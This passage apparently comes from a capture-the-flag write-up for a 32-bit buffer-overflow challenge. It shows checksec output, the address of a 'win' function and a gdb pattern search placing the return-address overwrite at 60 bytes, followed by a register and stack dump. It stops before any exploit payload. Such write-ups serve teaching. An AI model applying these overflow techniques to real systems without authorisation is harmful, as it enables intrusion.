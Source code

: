 ```c
root:pwn-simple-rip/ # checksec server
[*] '~/pwn-simple-rip/server'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

The buff char array has been assigned 32 bytes.

## GDB

Opening the file up in `gdb` and taking a look at the functions and their addresses we can note down the address of the win function as there are no security mechanisms in place that will randomize the addresses.

```c
gef➤  info functions
---- ----
0x08048586  win
---- ----
```

To test out the buffer overflow we can create a pattern in gdb with the command `pattern create 100` to create a 100 byte pattern.

After running the binary and passing in that pattern we see that it crashes and overwrites the Instruction pointer with the value `0x61616170`

Searching for the pattern using `pattern search 0x61616170` reveals that the value was overwritten after the first 60 bytes.

```c
[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x1       
$ebx   : 0x6161616e ("naaa"?)
$ecx   : 0xffffffff
$edx   : 0xffffffff
$esp   : 0xffffd760  →  "qaaaraaasaaataaauaaavaaawaaaxaaayaaa"
$ebp   : 0x6161616f ("oaaa"?)
$esi   : 0xf7fa1000  →  0x001e4d6c
$edi   : 0xf7fa1000  →  0x001e4d6c
$eip   : 0x61616170 ("paaa"?)
$eflags: [zero carry parity adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffd760│+0x0000: "qaaaraaasaaataaauaaavaaawaaaxaaayaaa"       ← $esp
0xffffd764│+0x0004: "raaasaaataaauaaavaaawaaaxaaayaaa"
0xffffd768│+0x0008: "saaataaauaaavaaawaaaxaaayaaa"
0xffffd76c│+0x000c: "taaauaaavaaawaaaxaaayaaa"
0xffffd770│+0x0010: "uaaavaaawaaaxaaayaaa"
0xffffd774│+0x0014: "vaaawaaaxaaayaaa"
0xffffd778│+0x0018: "waaaxaaayaaa"
0xffffd77c│+0x001c: "xaaayaaa"
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x61616170
```